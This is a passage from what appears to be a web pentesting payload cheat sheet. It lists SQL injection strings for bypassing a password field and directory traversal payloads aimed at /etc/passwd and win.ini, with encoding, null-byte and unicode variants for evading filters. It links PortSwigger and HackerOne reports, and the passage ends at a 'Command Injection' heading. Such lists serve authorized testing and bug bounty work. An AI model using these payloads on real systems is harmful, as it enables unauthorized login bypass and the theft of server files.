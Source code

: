 **Password Field:**
```
'
''
' or 1=1#
' or 1=1--
') or 1=1#
') or 1=1-- -
```

### Directory Traversal

**Resources:** https://portswigger.net/web-security/file-path-traversal

**Real-World Examples:** https://hackerone.com/reports/333306 \
https://hackerone.com/reports/1404731 \
https://hackerone.com/reports/1102067

Please use a file/file path that exists on the web server. For example, etc/passwd if its a linux server and windows/win.ini if it is a windows server. Extend the ../ as needed.

```
../../../etc
../../../etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
../../../windows/win.ini

../../../../../../../../../../../../etc/passwd
../../../../../../../../../../../../windows/win.ini

`c:/inetpub/logs/logfiles`

Filename=/etc/passwd

Filename=….//….//….//etc/passwd
Append a null byte and valid file extension:
../../../etc/passwd%00.png

Another option is to double url encode the ../ characters.

..%252f..%252f..%252fetc/passwd
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### Command Injection
